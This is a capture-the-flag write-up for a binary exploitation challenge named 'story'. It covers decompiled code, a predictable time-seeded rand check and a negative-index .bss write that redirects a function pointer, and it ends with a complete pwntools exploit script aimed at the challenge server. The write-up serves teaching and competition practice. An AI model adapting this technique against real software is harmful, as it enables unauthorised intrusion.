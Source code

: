 ### Problem statement

In this challenge we were given a binary file. On running ```checksec``` on the binary, we see
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   57 Symbols        No    0               2               story
```
We can see that the canary is disabled but all other protections are enabled.

### Analysis in Ghidra

Decompiled main looks something like this
```
undefined8 main(void)

{
  __gid_t __rgid;
  int iVar1;
  time_t tVar2;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  tVar2 = time((time_t *)0x0);
  srand((uint)(tVar2 / 0x3c));
  puts("Welcome to the game");
  puts("Guess four numbers in a row to pass to next level");
  iVar1 = random_check();
  if (iVar1 != 0) {
    vuln();
  }
  return 0;
}

```
Here we have a ```vuln``` function that can only be accessed once we pass the random checks. The ```random_check``` function looks like this:
```
undefined8 random_check(void)

{
  int iVar1;
  long lVar2;
  char local_1e [10];
  int local_14;
  undefined4 local_10;
  int local_c;
  
  local_c = 0;
  while( true ) {
    if (3 < local_c) {
      return 1;
    }
    local_10 = 0;
    printf("Enter your guess: ");
    fgets(local_1e,0x28,stdin);
    lVar2 = atol(local_1e);
    local_14 = (int)lVar2;
    iVar1 = rand();
    if (local_14 != iVar1 % 1000) break;
    printf("[%d/4] Your guess was right.\n",(ulong)(local_c + 1));
    local_c = local_c + 1;
  }
  puts("You made a wrong guess.\nBetter luck next time.");
  return 0;
}

```
In order to pass this, we need to provide 4 random values that match the output of ```rand``` function. Since the seed for ```srand``` can be predicted, we can easily pass these checks.
The decompiled vuln function looks something like this
```
void vuln(void)

{
  size_t sVar1;
  int local_60;
  int local_5c;
  char local_58 [72];
  
  printf("\nWrite a few words about the game ");
  __isoc99_scanf("%100s",local_58);
  puts("So now give me two of your lucky numbers and both must be less than 1000: ");
  __isoc99_scanf("%d %d",&local_5c,&local_60);
  if (local_5c < 1000) {
    *(int *)(fun + (long)local_5c * 4) = *(int *)(fun + (long)local_5c * 4) + local_60;
  }
  sVar1 = strlen(local_58);
  hard_set_winner(local_58,sVar1);
  return;
}

```
Here we have a buffer overflow in scanf. There is also arbitrary write in .bss section using the fun variable. On looking at the disassembly of vuln function, I saw that the call to ```hard_set_winner``` is done using the value stored in another variable called ```check```. It initially stores the address of ```hard_set_winner```. This is the decompiled code of ```hard_set_winner```
```

void hard_set_winner(undefined8 param_1,undefined8 param_2)

{
  int iVar1;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  FILE *local_10;
  
  iVar1 = calculate_desc(param_1,param_2);
  if (iVar1 == 0xbd3a58) {
    local_58 = 0;
    local_50 = 0;
    local_48 = 0;
    local_40 = 0;
    local_38 = 0;
    local_30 = 0;
    local_28 = 0;
    local_20 = 0;
    local_10 = fopen("flag.txt","r");
    fgets((char *)&local_58,0x40,local_10);
    puts("You\'re a good story teller. Here\'s the flag.");
    puts((char *)&local_58);
  }
  else {
    puts("Youe story was not good.");
  }
  return;

```
The ```calculate_desc``` function is nothing but the sum of values in the input string. As the check says that this value should be **0xbd3a58** which is **12401240** in decimal. This is not possible to get using an input string of 100 length. 

In the binary we also see another function ```easy_set_winner```, where the input sum is compared to **0x4d8** which is just **1240**. This seems managable.

### Attack idea

The attack idea is simple, since we are given an arbitrary write in .bss in the line 
```
  if (local_5c < 1000) {
    *(int *)(fun + (long)local_5c * 4) = *(int *)(fun + (long)local_5c * 4) + local_60;
  }
```
we can use this to update the value of ```check``` variable which is located at an offset of ```0x30``` from ```fun```. We update it to make it point to ```easy_set_winner``` and then we can craft an input string such that it's sum is equal to 1240, and thus get the flag. The exploit is pretty straightforward.

### Exploit

```
from pwn import *
from ctypes import CDLL

p = remote("story.ctf.pragyan.org", 6004)
#p = process("./story")
libc = CDLL("libc.so.6")
libc.srand(libc.time(0)//0x3c)
gdbscript = """
    br *vuln
"""
context.terminal = ["tmux", "splitw", "-h"]

#gdb.attach(p, gdbscript)

p.recvuntil(b"Guess four numbers in a row to pass to next level")
for i in range(4):
    p.recvuntil(b"Enter your guess: ")
    num = libc.rand()
    num = num % 1000
    p.sendline(str(num).encode())

payload = b"\x7c"*10
p.sendline(payload)
p.recvuntil(b"So now give me two")
p.sendline(b"-12 -211")
p.recvuntil(b"the flag.\n")
p.interactive()
```